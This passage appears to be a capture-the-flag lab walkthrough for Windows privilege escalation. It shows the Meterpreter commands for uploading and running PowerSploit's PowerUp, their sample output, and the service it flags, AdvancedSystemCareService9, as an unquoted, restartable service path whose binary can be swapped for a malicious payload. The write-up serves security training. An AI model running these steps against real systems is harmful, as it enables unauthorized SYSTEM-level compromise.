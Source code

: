 #### Action

To upload the script, use the following command in Meterpreter:

```bash
meterpreter > upload /opt/windows/powersploit/Privesc/PowerUp.ps1
```

**Sample Output:**

```bash
[*] uploading  : /opt/windows/powersploit/Privesc/PowerUp.ps1 -> PowerUp.ps1
[*] Uploaded 549.65 KiB of 549.65 KiB (100.0%): /opt/windows/powersploit/Privesc/PowerUp.ps1 -> PowerUp.ps1
[*] uploaded   : /opt/windows/powersploit/Privesc/PowerUp.ps1 -> PowerUp.ps1
```

### Executing PowerUp

To execute PowerUp using Meterpreter, load PowerShell and then enter the PowerShell environment by using the following commands:

```bash
meterpreter > load powershell
meterpreter > powershell_shell
PS > .\PowerUp.ps1
PS > Invoke-AllChecks
```

**Sample Output:**

```bash
[*] Running Invoke-AllChecks
```

### Q1. What is the name of the service that shows up as an unquoted service path vulnerability?

#### Action

After running `Invoke-AllChecks`, focus on the `CanRestart` option, which is set to true. This option allows us to restart a service on the system. The directory to the application is also writable, meaning we can replace the legitimate application with a malicious one, restart the service, and execute our payload.

**Sample Output:**

```bash
ServiceName   : AdvancedSystemCareService9
Path          : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
StartName     : LocalSystem
AbuseFunction : Write-ServiceBinary -ServiceName 'AdvancedSystemCareService9' -Path <HijackPath>
```

**Ans:** AdvancedSystemCareService9

**Explanation:**  
The `AdvancedSystemCareService9` service has an unquoted service path vulnerability, allowing us to exploit it by replacing the executable with a malicious payload.
